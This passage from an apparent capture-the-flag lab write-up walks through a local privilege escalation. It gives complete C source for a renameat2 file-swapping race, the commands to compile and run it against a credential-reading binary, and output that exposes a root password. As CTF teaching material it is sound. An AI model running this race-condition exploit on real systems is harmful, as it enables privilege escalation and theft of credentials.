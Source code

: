 ```c
      fprintf(stderr, "Cannot open %s \n", argv[1]);
      exit(1);
    }

    do {
        size = read(file_data, buffer, 256);
        write(1, buffer, size);
    } 
    
    while(size>0);

}
```

## Race condition

Providing the `root_password_backup` file to the `readcreds` binary will show an error, as the file is owned by `root`. However, we can run a race condition attack.

Download [`rename.c`](https://raw.githubusercontent.com/sroettger/35c3ctf_chals/master/logrotate/exploit/rename.c). The source of the program is shown below:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

Compile the program (`gcc rename.c -o rename`), create a `pwd` file and run the `rename` binary as follows:

~~~
frank@toc:~/root_access$ touch pwd
frank@toc:~/root_access$ ./rename pwd root_password_backup
~~~

Now in another session:

~~~
www-data@toc:/home/frank/root_access$ ./readcreds root_password_backup
./readcreds root_password_backup
Root Credentials:  root:aloevera 
~~~
